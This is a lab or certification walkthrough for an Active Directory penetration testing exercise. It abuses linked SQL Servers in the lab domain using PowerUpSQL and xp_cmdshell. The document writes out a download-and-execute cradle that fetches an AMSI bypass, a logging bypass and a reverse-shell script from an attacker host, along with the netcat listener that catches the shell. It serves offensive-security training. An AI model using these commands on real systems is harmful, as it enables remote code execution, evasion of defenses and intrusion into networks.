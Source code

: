 
---


# Objective - 22
#### Flag - First SQL Server linked to dcorp-mssql	
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

Import-Module C:\AD\Tools\PowerUpSQL-master\PowerupSQL.psd1

Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose
```
- We can use Get-SQLServerLinkCrawl for crawling the database links automatically:
```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Verbose
```
#### Flag - Name of SQL Server user used to establish link between dcorp-sql1 and dcorp-mgmt	
```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Verbose
```
- check the output
#### Flag - SQL Server privileges on eu-sql	
```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Verbose
```

#### Flag - Privileges on operating system of eu-sql	
- Sweet! We have sysadmin on eu-sql server!
- If xp_cmdshell is enabled (or RPC out is true - which is set to false in this case), it is possible to execute commands on eu-sql using linked databases. To avoid dealing with a large number of quotes and escapes, we can use the following command:
```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "exec master..xp_cmdshell 'set username'"
```
- Create Invoke-PowerShellTcpEx.ps1:
	- Create a copy of Invoke-PowerShellTcp.ps1 and rename it to Invoke-PowerShellTcpEx.ps1.
	- Open Invoke-PowerShellTcpEx.ps1 in PowerShell ISE (Right click on it and click Edit).
	- Add "Power -Reverse -IPAddress 172.16.100.X -Port 443" (without quotes) to the end of the file.
- Let's try to execute a PowerShell download execute cradle to execute a PowerShell reverse shell on the eu-sql instance. Remember to start a listener:
```
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.x/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://172.16.100.x/amsibypass.txt);iex (iwr -UseBasicParsing http://172.16.100.x/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget eu-sqlx
```
- On the listener:
```
C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443
$env:username
$env:computername
```